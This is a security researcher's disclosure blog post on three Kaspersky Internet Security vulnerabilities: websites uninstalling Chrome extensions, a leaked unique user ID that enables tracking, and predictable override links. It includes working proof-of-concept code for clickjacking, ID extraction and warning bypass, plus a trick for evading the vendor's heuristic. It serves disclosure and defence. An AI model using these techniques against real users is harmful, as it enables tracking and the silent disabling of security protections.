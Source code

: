 ```yaml
---
categories:
- kaspersky
- security
- privacy
- antivirus
date: 2019-11-27 07:39:29
description: 'More vulnerabilities in Kaspersky software: websites removing Chrome
  extensions, user tracking with unique identifiers and predictable links.'
image: kaspersky-shattered.jpeg
lastmod: '2020-01-05 16:37:39'
title: Assorted Kaspersky vulnerabilities
---
```


This will hopefully be my last article on vulnerabilities in Kaspersky products for a while. With one article on [vulnerabilities introduced by interception of HTTPS connections](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/) and another on [exposing internal APIs to web pages](/2019/11/25/kaspersky-the-art-of-keeping-your-keys-under-the-door-mat/), what's left in my queue are three vulnerabilities without any relation to each other.

{{< img src="kaspersky-shattered.jpeg" width="600" alt="Kaspersky functionality shattered" />}}

*Note*: Lots of technical details ahead. If you only want a high-level summary, there is one [here](/2019/11/27/more-kaspersky-vulnerabilities-uninstalling-extensions-user-tracking-predictable-links/).

{{< toc >}}

## Summary of the findings

The first vulnerability affects Kaspersky Protection browser extension for Google Chrome (not its Firefox counterpart) which is installed automatically by Kaspersky Internet Security. Arbitrary websites can trick it into uninstalling Chrome browser extensions ([CVE-2019-15684](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15684)). In particular, they can uninstall Kaspersky Protection itself, which will happen silently. Uninstalling other browser extensions will make Google Chrome display an additional confirmation prompt, so social engineering is required to make the user accept it. While this prompt lowers the severity of the issue considerably, the way it has been addressed by Kaspersky is also quite remarkable. The initial attempt to fix this issue took eight months, yet the issue could be reproduced again after making a trivial change.

The second vulnerability is very similar to the one [demonstrated by Heise Online earlier this year](https://www.heise.de/ct/artikel/Kasper-Spy-Kaspersky-Anti-Virus-puts-users-at-risk-4496138.html). While Kaspersky addressed their report in a fairly thorough way and most values exposed to the web by their application were made unsuitable for tracking, one value was overlooked. I could demonstrate how arbitrary websites can retrieve a user identifier which is unique to the specific installation of Kaspersky Internet Security ([CVE-2019-15687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15687)). This identifier is shared across all browsers and is unaffected by protection mechanisms such as Private Browsing.

Finally, the last issue affects links used by special web pages produced by Kaspersky Internet Security, such as the invalid certificate or phishing warning pages. These links will trigger actions in the application, for example adding an exception for an invalid certificate, overriding a phishing warning or disabling Safe Money protection on a banking site. I could find a way for websites to retrieve the value of one such link and from it to predict the value assigned to future links ([CVE-2019-15688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15688)). This allows websites to trigger actions from special pages programmatically, without having to trick the user into clicking them via [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) or social engineering.

## Uninstalling any browser extension

### The issue

Kaspersky Internet Security will install its extensions in all your browsers, something that is supposed to make your browsing safer. These extensions have quite a bit functionality. One particular feature caught my eye: the ability to uninstall other browser extensions, for some reason only present in the extension for Google Chrome but not in its Firefox counterpart. Presumably, this is used to remove known malicious extensions.

{{< highlight js >}}
function handleDeletePlugin(request, sender, sendResponse) {
    chrome.management.uninstall(request.id, function () {
        if (chrome.runtime.lastError)
            trySendResponse(sendResponse, { result: -1, errorText: chrome.runtime.lastError.message });
        else
            trySendResponse(sendResponse, { result: 1 });
    });
}
{{< /highlight >}}

This code is triggered by the `ext_remover.html` page, whenever the element with the ID `dbutton` is clicked. That's usually the point where I would stop investigating this, extension pages being out of reach for websites. But this particular page is listed under [web_accessible_resources](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/manifest.json/web_accessible_resources) in the extension manifest. This means that any website is allowed to load this page in a frame.

Not just that, this page (like any pages in this extension meant to be displayed in an injected frame) receives its data via `window.postMessage()` rather than using extension-specific messaging mechanisms. MDN has something to say on the [security concerns](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#Security_concerns) here:

> If you do expect to receive messages from other sites, always verify the sender's identity using the origin and possibly source properties. Any window (including, for example, `http://evil.example.com`) can send a message to any other window, and you have no guarantees that an unknown sender will not send malicious messages.

As you can guess, no validation of the sender's identity is performed here. So any website can tell that page which extension it is supposed to remove and what text it should display. Oh, and CSS styles are also determined by the embedding page, via `cssSrc` URL parameter. But just in case that the user won't click the button voluntarily, it's possible to use [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) and trick them into doing that.

### The exploit

Here is the complete proof-of-concept page, silently removing Kaspersky Protection extension if the user clicks anywhere on the page.

{{< highlight html >}}
<html>
  <head>
    <script>
      window.onload = function(event)
      {
        let frame = document.getElementById("frame");

        frame.contentWindow.postMessage(JSON.stringify({
          command: "init",
          data: JSON.stringify({
            id: "amkpcclbbgegoafihnpgomddadjhcadd"
          })
        }), "*");

        window.addEventListener("mousemove", event =>
        {
          frame.style.left = (event.clientX - frame.offsetWidth / 2) + "px";
          frame.style.top = (event.clientY - frame.offsetHeight / 2) + "px";
        });
      };
    </script>
  </head>
  <body style="overflow: hidden;">
    <iframe id="frame"
      style="opacity: 0.0001; width: 100px; height: 100px; position: absolute" frameborder="0"
      src="chrome-extension://amkpcclbbgegoafihnpgomddadjhcadd/background/ext_remover.html?cssSrc=data:text/css,%2523dbutton{position:fixed;left:0;top:0;width:100%2525;bottom:0}">
    </iframe>
    <p>
      Click anywhere on this page to get surprised!
    </p>
  </body>
</html>
{{< /highlight >}}

The `mousemove` event handler makes sure that the invisible frame is always placed below your mouse pointer. And the CSS styles provided in the `cssSrc` parameter ensure that the button fills out all the space within the frame. Any click will inevitably trigger the uninstall action. By replacing the `id` parameter it would be possible to remove other extensions as well, not just Kaspersky Protection itself. Luckily, Chrome won't allow extensions to do that silently but will ask for an additional confirmation.

{{< img src="removal_prompt.png" alt="Prompt displayed by the browser when Kaspersky Protection tries to remove another extension" width="348" />}}

So the attackers would need to social engineer the user into believing that this extension actually needs to be removed, e.g. because it is malicious. Normally a rather tricky task, but Kaspersky lending their name for that makes it much easier.

### Is this fixed?

In July 2019 Kaspersky notified me about this issue being resolved. They didn't ask me to verify, and so I didn't. However, when writing this blog post, I wanted to see what their fix looked like. So I got the new browser extension from Kaspersky Internet Security 2020, unpacked it and went through the source code. Yet this approach didn't get me anywhere, the logic looked exactly the same as the old one.

So I tried to see the extension in action. I opened my proof-of-concept page and was greeted with this message:

{{< img src="blocked.png" alt="Kaspersky blocking proof-of-concept page as HEUR:Exploit.Script.Generic" width="405" />}}

I figured that adding a heuristic for my proof-of-concept is a precaution, maybe a stopgap solution for older versions which didn't receive the proper fix yet. The heuristic appeared to look for the strings `contentWindow`, `postMessage` and `background/ext_remover.html` in the page source and would only fire if all of them were found. Of course, that's trivial to circumvent, e.g. by turning a slash into a backslash, so that it is `background\ext_remover.html`.

Ok, the page loads but the frame doesn't. Turns out, extension ID changed in the new version, that one is easily updated. Clicking the page... What? The extension is gone? Does it mean that this heuristic actually _is_ their fix? My brain just exploded.

When I notified Kaspersky they immediately confirmed my findings. They also promised that they would be investigating how this could have happened. While it's unlikely that anybody will ever learn the results of their investigation, I just cannot help thinking that somebody somewhere within their organization must have thought that masking the issue with a heuristic would be sufficient to make the problem go away. And their peers didn't question this conclusion.

### The real fix

A few weeks ago Kaspersky again notified me about the issue being resolved. This time the fix was obvious from the source code:

{{< highlight js >}}
if (origin !== "http://touch.kaspersky.com")
  return;
{{< /highlight >}}

The origin check here makes sure that websites normally won't be able to exploit this vulnerability. Unless somebody manages to inject JavaScript code into the `touch.kaspersky.com` domain. Which is easier than it sounds, given that we are talking about an unencrypted connection -- note `http:` rather than `https:` being expected here. According to Kaspersky, this part is fixed as well now and the patch is currently being rolled out.

## Tracking users with Kaspersky

### The issue

In August this year, Heise Online [demonstrated](https://www.heise.de/ct/artikel/Kasper-Spy-Kaspersky-Anti-Virus-puts-users-at-risk-4496138.html) how Kaspersky software provides websites with unique user identifiers which can be abused for tracking -- regardless of Private Browsing mode and even across different browsers. What I noticed in my previous research: Kaspersky software generates a number of different user-specific identifiers, many within the reach of web pages. I took a look and all of these identifiers were either turned into constants (identical across all installations) or stay only valid for a single session.

That is, almost all of them. The `main.js` script that Kaspersky Internet Security injects into web pages starts like this:

{{< highlight js >}}
var KasperskyLab = {
  SIGNATURE: "427A2927-6E16-014D-99C8-EDF9A859272B",
  CSP_NONCE: "CAD1B86EE5BAB74FB865E59BE19D9AE9",
  PLUGINS_LIST: "",
  PREFIX: "http://gc.kis.v2.scr.kaspersky-labs.com/",
  INJECT_ID: "FD126C42-EBFA-4E12-B309-BB3FDD723AC1",
  WORK_IDENTIFIERS: "427A2927-6E16-014D,921A7D4E-AD84-244A,570FF4E7-B048-1D4E,979DF469-AA8E-C049"
};
{{< /highlight >}}

`SIGNATURE` and `CSP_NONCE` change every time Kaspersky Internet Security is restarted, `INJECT_ID` is the same across all installations. But what about `WORK_IDENTIFIERS`? This key contains four values. The first one is clearly a substring of `SIGNATURE`, meaning that it is largely useless for tracking purposes. But the other three turned out to be installation-specific values.

How would a website get hold of the `WORK_IDENTIFIERS` value? It cannot just download `main.js`, this is prohibited by the same-origin policy. But there is actually an easier way, thanks to how this script processes it:

{{< highlight js >}}
if (ns.WORK_IDENTIFIERS)
{
  var workIdentifiers = ns.WORK_IDENTIFIERS.split(",");
  for (var i = 0; i < workIdentifiers.length; ++i)
  {
    if (window[workIdentifiers[i]])
    {
      ns.AddRunner = function(){};
      return;
    }
    window[workIdentifiers[i]] = true;
  }
}
{{< /highlight >}}

Explanation: every value within `WORK_IDENTIFIERS` ends up as a property on the `window` object (a.k.a. global variable in JavaScript), apparently to guard against multiple executions of this script. And that's where web pages can access them as well.

### The exploit

The piece of code below looks up all properties containing `-` in their name. This is sufficient to remove all default properties, only the properties added by Kaspersky will be left.

{{< highlight js >}}
let keys = Object.keys(window).filter(k => k.includes("-")).slice(1);
if (keys.length)
  alert("Your Kaspersky ID: " + keys.join(","));
{{< /highlight >}}

For reasons of simplicity this abuses an implementation detail in Chrome's and Firefox's JavaScript engines. While theoretically the order in which properties are returned by `Object.keys()` is undefined, in this particular scenario they will be returned in the order in which they were added. This makes it easier to remove the first property which isn't suitable for purposes of user tracking.

{{< img src="tracking_id.png" alt="Tracking ID displayed by a website, based on Kaspersky's data" width="432" />}}

One more note: even if Kaspersky Internet Security is installed, its script might not be injected into web pages. That is especially the case if Kaspersky Protect browser extension is installed. But that doesn't mean that this issue isn't exploitable then. The website can just load this script by itself, its location being predictable as of Kaspersky Internet Security 2020.

### The fix

As of Kaspersky Internet Security 2020 Patch E (presumably also Kaspersky Internet Security 2019 Patch I which I didn't test) the code processing `WORK_IDENTIFIERS` is still part of the script, but the value itself is gone. So no properties are being set on the `window` object.

## Controlling Kaspersky functionality with links

### The issue

Kaspersky software breaking up all HTTPS connections in order to inspect the contents was already topic of a [previous article](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/). There I mentioned an implication: if you break up HTTPS connections, you also become responsible for implementing warnings on invalid certificates as such. Here what this warning looks like then:

{{< img src="certwarning_kaspersky.png" alt="Certificate warning page when Kaspersky is installed" width="750" />}}

I've already demonstrated how the link titled "I understand the risks" here is [susceptible to clickjacking attacks](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/#using-clickjacking-to-override-certificate-warnings), websites can make the user click it without realizing what they are clicking. However, if you look at how this link works, an even bigger issue becomes apparent.

If you (like me) expected some JavaScript code at work here, connecting to the Kaspersky application in an elaborate fashion: no, nothing like that here. In fact, it's a plain link of the form `https://93.184.216.34/?1568807468_kis_cup_01234567_89AB_CDEF_0123_456789ABCDEF_`. Here, `https://93.184.216.34/` is the website that the certificate warning applies to. It never receives this request however, the request being processed by the local Kaspersky application instead -- if the magic parameter is found valid. The part starting with `_kis_cup_` is identical for all links on this machine. The only part changing is `1568807468`. What is it? If you guessed that it is a Unix timestamp, then you are mostly correct. But it doesn't indicate the time when the link was generated, it rather appears to be related to the time when the Kaspersky application started. And it is incremented with each new link generated.

### The exploit

Altogether, this means that you only need to see one link and you will be able to guess what future links will look like. But how to get your hands on this link, with the same-origin policy in place? Right, you need to access a certificate warning page for your own site. My proof-of-concept server would serve up two different SSL certificates: first a valid one, allowing the proof-of-concept page to load, then an invalid one, making sure that the proof-of-concept page downloading itself will receive the Kaspersky certificate warning page. So if we hijacked the traffic to google.com but don't want the user to see a certificate warning page, we could do something like this:

{{< highlight js >}}
fetch(location.href).then(response =>
{
  return response.text();
}).then(text =>
{
  let match = /url-falsepositive.*?href="([^"]+)/.exec(text);
  let url = match[1];
  url = url.replace(/\?\d+/, match =>
  {
    return "?" + (parseInt(match.substr(1), 10) + 2);
  }).replace(/^[^?]+/, "https://www.google.com/");

  fetch("https://www.google.com/").catch(e =>
  {
    location.href = url;
  });
});
{{< /highlight >}}

After downloading the certificate warning page for our own website, we extract the override link. We replace the host part of that link to make it point to google.com and increase the "timestamp" by two (there are two links on each certificate warning page). After that we trigger downloading a page from google.com -- we won't get to see the response of course, but Kaspersky will generate a certificate warning page here and our override link becomes valid. Loading it then will trigger a generic warning from Kaspersky:

{{< img src="override_warning.png" alt="Warning displayed by Kaspersky when overriding a certificate" width="456" />}}

If we can social engineer the user into accepting this warning, we'll have successfully overridden the certificate for google.com and can now do our evil thing with it. The [previous article](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/#using-clickjacking-to-override-certificate-warnings) already demonstrated what this social engineering might look like.

And this isn't the only thing we can do, similar links are used in other places as well. For example, Kaspersky Internet Security has a feature called Safe Money which makes sure that banking websites are opened in a separate browser profile. So when you first open a banking site you will see a prompt like the one below.

{{< img src="safe_money.png" alt="Safe Money prompt asking the user whether to open the site in a protected browser" width="750" />}}

How these buttons work? You guessed it, they are using links exactly like the ones on certificate warning pages. And it's the same incremental counter as well. So using the same approach as above we could also disable Safe Money on banking websites, and this functionality won't even prompt for additional confirmation.

There is also phishing protection functionality in Kaspersky Internet Security. So if you happen on a phishing page, you will see a Kaspersky warning instead. The override links there look like `http://touch.kaspersky.com/kis_cup_01234567_89AB_CDEF_0123_456789ABCDEF_1568807468`. That's actually the same values as with the certificate warning page, merely rearranged. So an arbitrary website will also be able to override these phishing warning pages.

I'm going to stop here, don't want to bore you will all the features in this application relying on this kind of links.

### The fix

Kaspersky Internet Security 2019 Patch F replaced the timestamp in the links by a randomly generated GUID. This makes sure that the links aren't predictable, so the attack no longer works. It doesn't fully address the clickjacking scenario however, which is probably why Kaspersky Internet Security 2020 for a while stopped displaying certificate warning pages altogether. Instead, there was a message displayed outside the browser. Probably a good choice, but this change was reverted for some reason.

Interestingly, I've since looked at Avast/AVG products which also break up HTTPS connections. These managed to do it without replacing browser's certificate warning pages however. Their approach: don't touch connections with invalid certificates, let the browser reject them instead. Also, when replacing valid certificates by their own, keep certificate subject unchanged so that name mismatches will be flagged by the browser. Maybe Kaspersky could consider that approach as well?

## Timeline

* 2018-12-18: Sent report via Kaspersky bug bounty program: [Predictable links on certificate warning pages.](https://hackerone.com/reports/469372)
* 2018-12-21: Sent report via Kaspersky bug bounty program: [Websites can trigger uninstallation of browser extensions.](https://hackerone.com/reports/470519)
* 2018-12-24: Kaspersky acknowledges the issues and says that they are working on fixing them.
* 2019-07-29: Kaspersky notifies me about these two issues being fixed in KIS 2020.
* 2019-07-29: Requested disclosure of my reports.
* 2019-08-05: Kaspersky denies disclosure, citing that users need time to update.
* 2019-08-19: Notified Kaspersky that I plan to publish a blog post on these issues on 2019-11-25.
* 2019-08-19: Sent report via email: Exposure of unique user ID. Disclosure deadline: 2019-11-25.
* 2019-08-19: Kaspersky confirms receiving the new report.
* 2019-09-18: Sent report via email: Websites can still trigger uninstallation of browser extensions. Disclosure deadline is still 2019-11-25, given how trivial it is to modify the original proof of concept.
* 2019-09-19: Kaspersky confirms that the vulnerability still exists and acknowledges the deadline.
* 2019-11-07: Kaspersky notifies me about the remaining issues being fixed in 2019 (Patch I) as well as 2020 (Patch E) family of products.
* 2019-11-15: Evaluated the fixes and notified Kaspersky about extension uninstall being still possible to trigger via Man-in-the-Middle attack.
* 2019-11-22: Kaspersky notifies me about the remaining attack surface being removed in the patch supposed to become available by 2019-11-28.
